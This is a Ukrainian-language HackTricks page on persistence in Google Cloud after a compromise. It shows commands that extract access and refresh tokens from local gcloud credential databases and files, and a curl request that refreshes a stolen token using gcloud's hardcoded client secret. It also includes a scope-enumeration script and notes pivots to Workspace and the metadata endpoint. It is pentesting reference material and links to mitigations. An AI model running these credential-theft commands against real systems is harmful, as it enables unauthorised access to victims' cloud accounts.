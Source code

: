 # GCP - Непостійність Non-svc

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити **рекламу вашої компанії на HackTricks** або **завантажити HackTricks у форматі PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

Ці техніки корисні, якщо ви якось скомпрометували деякі облікові дані GCP або машину, що працює в середовищі GCP.

## Перехоплення токенів

### Токени аутентифікованого користувача

Щоб отримати **поточний токен** користувача, ви можете виконати: 

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

Перевірте на цій сторінці, як **безпосередньо використовувати цей токен за допомогою gcloud**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

Щоб отримати деталі щодо **створення нового токену доступу**, виконайте:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
Також можна знайти оновлювальні токени в **`$HOME/.config/gcloud/application_default_credentials.json`** та в **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`**.

Щоб отримати новий оновлений токен доступу з **токеном оновлення**, ідентифікатором клієнта та секретом клієнта, виконайте:
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

Термін дії токенів оновлення можна керувати в **Адміністратор** > **Безпека** > **Керування сеансами Google Cloud**, і за замовчуванням він встановлений на 16 годин, хоча його можна встановити як ніколи не закінчується:

<figure><img src="../../../.gitbook/assets/image (2) (1).png" alt=""><figcaption></figcaption></figure>

### Потік автентифікації

Потік автентифікації при використанні чогось на зразок `gcloud auth login` відкриє вікно запиту у браузері, і після прийняття всіх областей видимості браузер надішле запит, подібний до цього, на відкритий інструментом http-порт:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
Потім gcloud використовуватиме стан і код з деяким жорстко закодованим `client_id` (`32555940559.apps.googleusercontent.com`) та **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) для отримання **даних остаточного оновлення токену**.

{% hint style="danger" %}
Зверніть увагу, що спілкування з localhost відбувається через HTTP, тому можливо перехопити дані для отримання токену оновлення, проте ці дані дійсні лише 1 раз, тому це буде некорисно, легше просто прочитати токен оновлення з файлу.
{% endhint %}

### Області OAuth

Ви можете знайти всі області Google за посиланням [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) або отримати їх, виконавши:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
Можливо побачити, які обсяги може підтримувати програма, яку **`gcloud`** використовує для аутентифікації за допомогою цього скрипту:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
Після виконання перевірено, що цей додаток підтримує такі обсяги:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
Цікаво побачити, як цей додаток підтримує область **`drive`**, що може дозволити користувачеві ескалацію з GCP до Workspace, якщо зловмисник змусить користувача згенерувати токен з цією областю.

**Перевірте, як** [**зловживати цим тут**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Облікові записи служб

Так само, як і з аутентифікованими користувачами, якщо вам вдасться **скомпрометувати файл приватного ключа** службового облікового запису, ви зможете **отримати до нього доступ зазвичай стільки, скільки захочете**.\
Однак, якщо ви вкрадете **токен OAuth** службового облікового запису, це може бути ще цікавіше, оскільки, навіть якщо за замовчуванням ці токени корисні лише протягом години, якщо **жертва видалить приватний ключ API, токен OAuh залишиться дійсним до його закінчення**.

### Метадані

Очевидно, доки ви знаходитесь всередині машини, що працює в середовищі GCP, ви зможете **отримати доступ до облікового запису служби, приєднаного до цієї машини, звернувшись до кінцевої точки метаданих** (зауважте, що токени Oauth, до яких ви можете отримати доступ в цій кінцевій точці, зазвичай обмежені областями).

### Виправлення

Деякі виправлення для цих технік пояснені за посиланням [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

## Посилання

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

<details>

<summary><strong>Вивчайте хакінг AWS від нуля до героя з</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Інші способи підтримки HackTricks:

* Якщо ви хочете побачити свою **компанію рекламовану в HackTricks** або **завантажити HackTricks у PDF**, перевірте [**ПЛАНИ ПІДПИСКИ**](https://github.com/sponsors/carlospolop)!
* Отримайте [**офіційний PEASS & HackTricks мерч**](https://peass.creator-spring.com)
* Відкрийте для себе [**Сім'ю PEASS**](https://opensea.io/collection/the-peass-family), нашу колекцію ексклюзивних [**NFT**](https://opensea.io/collection/the-peass-family)
* **Приєднуйтесь до** 💬 [**групи Discord**](https://discord.gg/hRep4RUj7f) або [**групи telegram**](https://t.me/peass) або **слідкуйте** за нами на **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Поділіться своїми хакерськими трюками, надсилайте PR до** [**HackTricks**](https://github.com/carlospolop/hacktricks) та [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) репозиторіїв GitHub.

</details>

